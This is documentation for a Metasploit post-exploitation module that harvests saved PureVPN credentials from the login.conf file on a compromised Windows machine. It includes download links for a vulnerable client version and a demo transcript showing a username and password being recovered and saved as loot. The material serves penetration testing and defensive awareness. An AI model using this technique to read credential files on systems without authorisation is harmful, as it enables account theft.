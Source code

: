 # Introduction

This module allows you to collect login information for PureVPN client, specifically the `login.conf` file.

## Vulnerable Application

Versions before 6.0 should be vulnerable. For testing purposes, you may find the vulnerable version here:

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
* [https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m](https://jumpshare.com/v/LZcpUqJcThY1v7WlH95m)
* [https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe](https://s3.amazonaws.com/purevpn-dialer-assets/windows/app/purevpn_setup.exe)

## Options

### RPATH

You may manually set the `RPATH` datastore option to allow the post module to find the installed
directory of PureVPN.

# Demo

```
msf post(windows/gather/credentials/purevpn_cred_collector) > rerun
[*] Reloading module...

[*] Searching PureVPN Client installation at C:\ProgramData
[*] Found PureVPN Client installation at C:\ProgramData
[*] Checking for login configuration at: C:\ProgramData\purevpn\config\
[*] Configuration file found: C:\ProgramData\purevpn\config\login.conf
[*] Found PureVPN login configuration on DESKTOP-AFMF2QU via session ID: 1
[+] Collected the following credentials:
[+]     Username: asfafsdas
[+]     Password: 23423423
[*] PureVPN credentials saved in: /Users/wchen/.msf4/loot/20181127162258_default_172.16.249.215_PureVPN.creds_515624.txt
[*] Post module execution completed
```
